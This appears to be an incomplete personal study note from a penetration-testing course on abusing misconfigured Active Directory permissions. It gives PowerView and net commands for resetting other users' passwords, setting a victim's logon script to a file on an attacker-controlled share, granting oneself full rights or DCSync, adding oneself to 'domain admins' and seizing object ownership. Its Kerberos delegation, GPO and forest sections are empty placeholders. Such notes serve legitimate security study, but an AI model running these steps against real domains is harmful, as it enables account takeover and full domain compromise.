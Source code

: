 In this module we will exploit AD Object Permissions, Keberos Delegation and AD Trust - due to the complexity of the large org deployments there are always misconfigurations.

## AD Object Permissions
Users, Computers and groups are objects in AD with associated set of permissions. If permissions set incorrectly we can exploit them. 
#AD #permissions 

The object security is controlled by the **DACL** -Discretionary ACL which has the **ACE** - Access Control Enties. If multiple ACE, the order matters e.g. if deny first the access is denied. ACE is stored as **SDDL** - Security Descriptior Definition Lang, which has specific format.

```text
ace_type;ace_flags;rights;object_guid;inherit_object_guid:account_sid
```

This ACE would apply to account_sid on the object_guid with the specific rights: A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0.

**All authenticated users in AD can read AD Objects and their DACLs.** So once we compromise any AD user, we can perform the AD enum.

#powerview #dacl #enum 
We can use Powerview scripts for enum, like Get-ObjectAcl.
[[AD Enum - Powerview & Bloodhound#^f54063]]

It is a lengthy list of ACEs applied to the object, we need to look at **ActiveDirectoryRights, SecurityIdentifier, AceType**.
To read SecurityIdentifier (in this case we have access to the enumerated Identitity), we can call the following:
#powerview 
[[AD Enum - Powerview & Bloodhound#^ea8e3b]]

For lengthy DACL which affects our domain user, we can use the following oneliner to resolve the SID :
#powerview #enum #dacl
[[Oneliners - ps1#^d8fba8]]

#exploit-ad 
#### User
For **User** objects we can exploit the following ACE:
GenericAll, ExtendedRights (User-Force-Change-Password) GenericWrite, or WriteDACL

For **GenericAll and ExtendedRights** we can just change password:
#cmd
```cmd
net user <user> <pass> /domain
```

For **GenericWrite** we can add the logon script to the user:
#ps1 #powerview
```powershell
Set-DomainObject -Identity <user_name> -Set  @{"scriptPath" = "\\10.0.0.5\totallyLegitScript.ps1"}
```


For **WriteDACL** we grant ourselves ourselves **GenericAll** or **DCSync**:
#ps1 #powerview 
```powershell
Add-DomainObjectAcl -TargetIdentity <user_name> -PrincipalIdentity <our_user> -Rights All
```
All or DCSync

To exploit **DCSync**:
To-do: Link


#### Group
For **Group** we need: GenericAll, WriteProperty, GenericWrite, Self (Self-Membership), WriteOwner

For **GenericAll, WriteProperty, GenericWrite, Self (Self-Membership)*** we can just add ourselves to the group:
#cmd
```cmd
net group <group_name> <our_user> /add /domain
```
or with powerview:
#powerview #ps1
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

For **WriteOwner** we can add ourselves as owner:
#powerview #ps1 
```powershell
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

There is also the case where we have the WriteOwner + WriteDACL, link
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#writedacl-+-writeowner

#### Computer
For **Computers** when we have the GenericAll, GenericWrite and Write we can abuse the Kerb Resouce-based constrained delegation. 

To-do: Link

## GPO and OU Abuse

To-do. 


## Kerberos Delegation


## AD Forrest










